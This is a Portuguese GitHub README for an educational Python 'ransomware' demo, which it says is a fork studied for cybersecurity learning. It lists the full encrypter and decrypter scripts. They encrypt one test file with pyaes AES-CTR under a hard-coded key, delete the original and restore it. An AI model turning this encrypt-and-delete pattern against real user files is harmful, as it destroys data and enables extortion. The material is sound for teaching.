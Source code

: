 ### Ransomware em Python:
Este projeto é uma ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos por meio da biblioteca pyaes.

## Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

## Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

- Criar um arquivo para teste:
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

- Executar o Encrypter:
python encrypter.py
isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

- Executar o Decrypter:
python decrypter.py
isso removerá o arquivo criptografado e restaurará teste.txt.

## Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
